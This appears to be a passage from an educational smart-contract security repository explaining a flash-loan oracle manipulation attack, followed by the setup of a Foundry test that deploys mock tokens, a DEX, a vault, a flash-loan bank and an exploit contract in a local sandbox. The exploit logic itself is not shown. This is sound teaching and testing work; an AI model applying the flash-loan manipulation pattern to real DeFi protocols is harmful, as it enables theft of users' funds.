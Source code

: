 All of this happens inside one transaction, and at the end, the flash loan is repaid, leaving the attacker with profit. The main lesson: flash loans give attackers “infinite ammo” for one block, so every protocol has to design assuming this is possible.

---

## Foundry test: `PymFlashLoan.t.sol`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {Test, console} from "forge-std/Test.sol";
import {MockERC20} from "../../src/Multiverse-Case-Studies/Flash-Loan-Oracle-Manipulation/MockERC20.sol";
import {PymDEX} from "../../src/Multiverse-Case-Studies/Flash-Loan-Oracle-Manipulation/PymDEX.sol";
import {StarkVault} from "../../src/Multiverse-Case-Studies/Flash-Loan-Oracle-Manipulation/StarkVault.sol";
import {AntManExploit} from "../../src/Multiverse-Case-Studies/Flash-Loan-Oracle-Manipulation/AntManExploit.sol";
import {QuantumRealmBank} from "../../src/Multiverse-Case-Studies/Flash-Loan-Oracle-Manipulation/QuantumRealmBank.sol";

contract PymFlashLoan is Test {
    MockERC20 tokenA;
    MockERC20 tokenB;
    PymDEX pym;
    StarkVault vault;
    AntManExploit exploit;
    QuantumRealmBank qrbA;

    address wasp = makeAddr("Wasp");
    address attacker = makeAddr("Attacker");

    function setUp() public {
        // Deploy tokens
        tokenA = new MockERC20("TokenA", "A");
        tokenB = new MockERC20("TokenB", "B");

        // Deploy DEX
        pym = new PymDEX(address(tokenA), address(tokenB), 1_000_000 ether, 1_000_000 ether);
        tokenA.mint(address(pym), 1_000_000 ether);
        tokenB.mint(address(pym), 1_000_000 ether);

        // Deploy Vault
        vault = new StarkVault(address(tokenA), address(tokenB), address(pym));
        tokenB.mint(address(vault), 100_000 ether);

        // Deploy flash loan bank for TokenA
        qrbA = new QuantumRealmBank(address(tokenA));
        tokenA.mint(address(qrbA), 1_000_000 ether);

        // Setup victim
        tokenA.mint(wasp, 10_000 ether);
        vm.startPrank(wasp);
        tokenA.approve(address(vault), 10_000 ether);
        vault.depositCollateral(10_000 ether);
        vault.borrow(5_000 ether); // initial debt
        vm.stopPrank();

        // Deploy exploit contract
        exploit = new AntManExploit(address(pym), address(vault), address(tokenA), address(tokenB), payable(attacker));
    }
```